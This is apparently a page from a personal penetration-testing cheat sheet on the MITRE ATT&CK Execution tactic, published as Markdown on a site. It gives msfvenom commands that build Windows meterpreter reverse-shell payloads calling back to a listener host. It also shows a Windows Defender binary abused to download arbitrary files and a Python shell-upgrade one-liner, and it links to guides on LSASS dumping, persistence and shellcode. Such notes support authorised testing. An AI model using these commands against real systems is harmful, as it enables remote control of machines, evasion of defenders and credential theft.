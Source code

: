 ```yaml
---
layout: post
title: TA0002 Execution
category: pen
parent: cheatsheets
modified_date: 2023-07-16
permalink: /pen/win/exec
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [payload](#payload)
	* [pbuild](#pbuild)
	* [psign](#psign)
	* [sources](#sources)
* [dl](#dl)
* [rshell](#rshell)
* [escalation](#escalation)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='payload'></a>payload
### <a name='pbuild'></a>pbuild
pbuild = payload build
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```

### <a name='psign'></a>psign
psign = payload sign

### <a name='sources'></a>sources

*[cocomelonc/registry-run-keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)
*[cocomelonc/dump-lsass](https://cocomelonc.github.io/malware/2023/05/11/malware-tricks-28.html)
*[cocomelonc/run-shellcode-via-settimer](https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html)
*[ired.team/write-shellcode-c](https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c)
*[codeproject/write-shellcode-c++](https://www.codeproject.com/Articles/5304605/Creating-Shellcode-from-any-Code-Using-Visual-Stud)
*[byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)

## <a name='dl'></a>dl
dl = download
* [/sys/powershell#transfer-http](/sys/powershell/transfer-http)
* [/dev/snippet#python-dl](/dev/snippet#python-dl)
* [juggernaut-sec](https://juggernaut-sec.com/windows-file-transfers-for-hackers/)
```sh
# download
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path>
```

## <a name='rshell'></a>rshell
[database](https://shell-storm.org/shellcode/index.html)
```sh
# run bash via python
python -c 'import pty; pty.spawn("/bin/bash")'
```

## <a name='escalation'></a>escalation

[PrivescCheck.ps1](https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1)